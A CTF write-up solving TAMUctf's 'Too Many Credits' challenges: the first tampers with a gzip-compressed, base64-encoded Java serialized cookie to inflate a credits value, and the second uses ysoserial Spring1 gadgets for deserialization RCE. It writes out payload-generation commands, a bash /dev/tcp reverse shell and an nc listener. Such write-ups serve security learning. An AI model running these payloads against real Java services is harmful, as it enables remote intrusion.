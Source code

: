 # Too Many Credits 1
Okay, fine, there’s a lot of credit systems. We had to put that guy on break; seriously concerned about that dude.
Anywho. We’ve made an actually secure one now, with Java, not dirty JS this time. Give it a whack?
If you get two thousand million credits again, well, we’ll just have to shut this program down.
Even if you could get the first flag, I bet you can’t pop a shell!
http://toomanycredits.tamuctf.com

# Solution
This challenge is about Java Serialization.

## Understanding the cookie
On visiting the link we see a page with a counter. On inspecting the cookies we see a base64 string as cookie.

On directly decoding it you get gibberish. This is because its not plain text.
The best way to handle such base64 strings is to decode the string and save it into a file. Use a command like
``` echo -n H4sIAAAAAAAAAFvzloG1uIhBNzk/Vy+5KDUls6QYg87NT0nN0XMG85zzS/NKjDhvC4lwqrgzMTB6MbCWJeaUplYUMEAAEwAKMkv7UgAAAA== | base64 -d w0 >> unknown_file
```
Then run file on it to know the actual filetype.
```file unknown_file
```
This is will return saying its a gzip file. On extracting we get another file, applying ``file`` on it gives filetype as Java Serialized Object.
The combined command till here would look like
``` echo -n H4sIAAAAAAAAAFvzloG1uIhBNzk/Vy+5KDUls6QYg87NT0nN0XMG85zzS/NKjDhvC4lwqrgzMTB6MbCWJeaUplYUMEAAEwAKMkv7UgAAAA== | base64 -d | gzip -d >> java_ser_obj
```

## Crafting our payload

So now we know we have to understand how such an Object is structured in order to edit it and increase our credits value
For information about the structure of the object, refer this [article](https://www.javaworld.com/article/2072752/the-java-serialization-algorithm-revealed.html)

To view the deserialized payload, we can [Serialization Dumper](https://github.com/NickstaDB/SerializationDumper) tool by NickstaDB

![Deserialized_object](deserialized.png)
We can see that it has a field of Long type which holds the credits count. So its obvious that we have to find and edit that to a two thousand million in order to get the flag.
If you read the structure articel you could now anticipate where the value would be in the hexdump and change it appropriately.
Incase you skipped that part, just look for a 3 in the hex and change it.(Its at the very end). We need to add a high hex value there. We can patch that using an online [hex editor](https://hexed.it/?hl=en)
I am attatching the [patched object](patched_object) for reference

![hexdump](object_hex.png)

After patching it we compress it, base64 encode it and send it as cookie. The entire command to generate payload from the patched object
``` gzip -c patched_object | base64 -
```
This returns the payload string `H4sICBsJe14AA3BhdGNoZWRfb2JqZWN0AFvzloG1uIhBNzk/Vy+5KDUls6QYg87NT0nN0XMG85zz
S/NKjDhvC4lwqrgzMTB6MbCWJeaUplYUMFxgAAEBAAdAMaNSAAAA`
Submit as cookie and get the flag.

# Too Many Credits 2
Even if you could get the first flag, I bet you can't pop a shell!
URL: http://toomanycredits.tamuctf.com

# Solution
This challenge is about Java Deserialization Vulnerability.
[Video]https://www.youtube.com/watch?v=KSA7vUkXGSg explaining the exploit discovered byChris Frohoff & Gabriel Lawrence


## Finding the payload
Basically we have to craft a java object which when deserialized by the java code in the server starts a remote shell.
An open-source tool named [ysoserial](https://github.com/frohoff/ysoserial) was also developed.

Refer this [article](https://nickbloor.co.uk/2017/08/13/attacking-java-deserialization/) for a better idea how the attack works.

The tool automatially creates payload with the command we wish to execute on the shell obtained. It gives us various payloads to work with, we will have to test each one out to figure out the one that works.
SerialBrute is a tool that could automate this. It tests out each payload. However we did it manually. However since this looks like a Java web app, you could try out the Spring framework payload first.

To manually generate a payload the following command can be used
``` java -jar ysoserial-0.0.6-SNAPSHOT-all.jar Spring1 'ping -n 1 8.8.8.8' | gzip | base64 -w0 ```
This payload will pop a shell and execute the ping command.

To decide on the payload, we have to observe the error returned by the web app when we send the payload. When a particular class in the payload does not exist on the server, the error message contains the name of the class not found. When all the classes required are present, the error returns as 'No Message Available' in the site.

View below the difference between the error messages returned
![not_found](not_found_class.png "Class_not_found") ![found_all](found_all.png "All Class Available")


## Popping a Remote Shell

So after finding the payload that works, we need to test out the commands that will work. Change 8.8.8.8 to the IP of your server and listen for a ping request using ``` sudo tcpdump icmp ``` on your server.
![ping_request](ping_request.png)

Yay! The command executed. We have RCE. Now we need a remote shell running to interact with and get the flag. You can find a list of payloads to get a remote shell [here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

I went with ` bash -i >& /dev/tcp/0.0.0.0/8065 0>&1 ` with 0.0.0.0 replaced with my server IP and listened for connection on my server port 8065.

This is where I got stuck with an issue, the payload I gave didn't execute on the server. So I tried various ones and none of them worked. I took me a while to figure out the issue.

From what I understood the ysoserial generates payloads and gives the entire command string as a single argument to the object created. But if we want to execute complex commands we have to pass each part of the complex commands in an array. This was not an issue with simple commands like ping, wget, ls. But pipeing and redirection of output won't work. So a slight modification is needed while generating payloads. This is done in the [ysoserial-modified](https://github.com/pimps/ysoserial-modified) repo. If you didn't understand what I tried to explain here please look up this [article](https://codewhitesec.blogspot.com/2015/03/sh-or-getting-shell-environment-from.html) to get a much clear idea. Also the repo has details as to why the modification was required.

Generating our payload using ysoserial-modified:
``` java -jar ysoserial-modified.jar Spring1 bash 'bash -i >& /dev/tcp/x.x.x.x/8065 0>&1' | gzip | base64 -w0
```
[final_payload](final_payload.png)

Listening on our server for incoming connection
``` nc -lvp 8065
```
we get a shell and the flag from the text file on the remote server
[shell](remote_shell.png)
